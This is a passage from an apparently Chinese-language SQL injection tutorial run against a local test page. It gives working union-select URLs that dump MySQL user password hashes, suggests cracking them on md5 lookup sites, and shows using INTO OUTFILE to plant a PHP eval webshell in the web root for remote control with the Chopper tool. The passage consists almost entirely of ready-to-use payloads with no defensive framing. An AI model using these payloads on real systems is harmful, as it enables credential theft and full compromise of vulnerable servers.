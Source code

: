 `http://127.0.0.1/test/article.php?id=-1 union select 1,2,concat(user,authentication_string) from mysql.user --` 可以查出 MySQL  用户的密码，在 linux 下authentication_string 为 password

> 其中密码是加密过的，可以找在线 md5 解密网站解密出来

### 写入 webshell

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,"test" into outfile "D:\\test.txt" --`  测试能否写入文件

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,load_file("D:\\test.txt") --`  测试文件是否写入

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,"<?php @eval($_POST['pass'])?>" into outfile "C:\\apache24\\htdocs\\test\\caidao.php" --`  写入 webshell ，成功连入菜刀

![20160904221012.png](../../images/20160904221012.png)

